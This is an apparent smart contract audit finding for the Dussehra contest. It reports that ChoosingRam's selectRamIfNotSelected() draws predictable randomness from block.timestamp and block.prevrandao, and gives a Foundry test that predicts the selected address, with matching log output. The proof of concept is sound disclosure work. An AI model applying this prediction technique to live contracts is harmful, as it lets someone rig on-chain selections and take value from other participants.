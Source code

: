 ### Relevant GitHub Links

https://github.com/Cyfrin/2024-06-Dussehra/blob/9c86e1b09ed9516bfbb3851c145929806da75d87/src/ChoosingRam.sol#L83

## Description:

The `selectRamIfNotSelected()` function in the ChoosingRam contract uses a logic that relies on `block.timestamp` and `block.prevrandao` to select a random RAM. However, this approach makes the randomness predictable, especially on certain blockchains where `block.prevrandao` returns constant values, such as Arbitrum and zkSync. This predictability compromises the security and integrity of the selection process.

## Impact:

Predictable randomness allows attackers to predict the selected RAM, breaking the randomness logic and potentially manipulating the outcome. This vulnerability can lead to unfair advantages and exploitation within the system.

## Proof of Concept:

Run the following code in `Dussehra.t.sol` :

```
function test_predictRandomNumber() public participants {
        vm.prank(player1);
        vm.warp(1728691201); // Set time within the valid range

        // Predictable random number using the same logic as in the contract
        uint256 predictedRandom =
            uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao))) % ramNFT.tokenCounter();
        address expectedRam = ramNFT.getCharacteristics(predictedRandom).ram;

        // Call the function to select Ram
        vm.startPrank(organiser);
        choosingRam.selectRamIfNotSelected();
        vm.stopPrank();

        // Ensure the selected ram matches the predicted ram
        assertEq(choosingRam.selectedRam(), expectedRam);
        assertTrue(choosingRam.isRamSelected());

        console.log("Predicted Ram: ", expectedRam);
        console.log("Selected Ram: ", choosingRam.selectedRam());
    }
```

Output :

```
Logs:
  Predicted Ram:  0xEb0A3b7B96C1883858292F0039161abD287E3324
  Selected Ram:  0xEb0A3b7B96C1883858292F0039161abD287E3324
```
